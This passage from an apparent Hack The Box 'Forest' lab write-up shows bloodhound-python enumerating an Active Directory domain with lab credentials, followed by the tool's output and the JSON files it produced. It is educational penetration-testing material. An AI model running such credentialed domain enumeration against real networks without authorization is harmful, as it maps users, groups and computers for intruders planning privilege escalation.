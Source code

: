 ![Bloodhound](/assets/img/htb/machines/windows/easy/forest/bloodhound.png)

#### Method #2: using `bloodhound-python`

```bash
$ pip install bloodhound 
$ bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -c all -ns $TARGET
INFO: Found AD domain: htb.local
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
WARNING: Could not resolve SID: S-1-5-21-3072663084-364016917-1341370565-1153
INFO: Found 31 users
INFO: Found 75 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 40S
$ ls *.json
20210906143955_computers.json  20210906143955_domains.json  20210906143955_groups.json  20210906143955_users.json
```
